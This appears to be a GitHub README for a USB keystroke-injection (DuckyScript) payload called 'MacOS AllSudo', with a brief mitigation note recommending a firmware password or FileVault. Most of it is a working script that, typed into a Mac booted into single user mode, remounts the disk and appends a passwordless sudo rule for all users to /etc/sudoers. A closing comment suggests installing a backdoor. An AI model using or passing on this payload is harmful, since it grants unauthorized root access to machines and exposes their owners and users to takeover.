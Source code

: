 **Author: Jesse Wallace ([@c0deous](https://twitter.com/c0deous))**
**[c0deo.us](https://c0deo.us/)**

This script adds a line into /etc/sudoers that enables sudo for ALL users **without requiring a password.**  Only requirement is a reboot into [single user mode](https://support.apple.com/en-us/HT201573).

**Mitigation**

Setup a [firmware password](https://support.apple.com/en-us/HT204455) or enable [FileVault](https://support.apple.com/en-us/HT204837) disk encryption.

```
REM MacOS AllSudo
REM Enables Sudo access for all users without a password
REM First boot the machine into single user mode - https://support.apple.com/en-us/HT201573
REM (You could probably script single user mode but I couldn't be bothered to play with the timings)
REM By Jesse Wallace (@c0deous)
REM https://c0deo.us/
DELAY 1000
STRING mount -uw / && chmod 755 /etc/sudoers && echo 'ALL    ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers && chmod 440 /etc/sudoers && shutdown -h now
ENTER
REM Now would be a great time to install a backdoor.  Ez root ;3
REM TODO Use visudo for edits (unconfirmed if working)